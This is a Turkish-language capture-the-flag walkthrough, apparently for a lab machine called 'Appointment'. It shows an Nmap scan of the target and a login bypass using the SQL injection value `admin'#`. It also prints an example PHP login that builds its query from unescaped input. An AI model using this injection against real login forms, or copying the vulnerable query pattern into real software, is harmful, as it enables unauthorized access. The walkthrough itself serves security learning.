 ```yaml
---
search:
  boost: 2
---
```


# Appointment

!!! info "Target IP Address"

    10.129.219.149

Hedef makine için Nmap taraması gerçekleştir:

```bash
nmap 10.129.219.149 -Pn -sV -p 80
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:27 +03
Nmap scan report for 10.129.219.149
Host is up.

PORT   STATE    SERVICE VERSION
80/tcp filtered http

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.43 seconds
```

Web tarayıcısında [http://10.129.219.149](http://10.129.219.149) adresine git. Login formunda kullanıcı adı kısmına `admin'#` ve parola kısmına boşluk olmayan herhangi bir karakter gir.

Kullanıcı adı kısmına girilen bu değer sayesinde yanlış parola ile dahi giriş yapılabilir. Çünkü kullanıcı girdisini doğru şekilde kontrol etmeyen bir PHP kodu aşağıdaki gibi gözükebilir:

```php title="example.php" linenums="1" hl_lines="1"
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
$result=mysql_query($sql);
$count=mysql_num_rows($result);
if ($count==1){
    $_SESSION['username'] = $username;
    $_SESSION['password'] = $password;
    header("location:home.php");
}
```

Kullanıcı adı olarak `admin'#` değeri verildiğinde SQL satırı aşağıdaki gibi olur:

```php
$sql="SELECT * FROM users WHERE username='admin'# AND password='$password'";
```

Bu sorgu hatasız çalışacağından `$count` değişkenin değeri `1` olur ve Login başarılı olur.
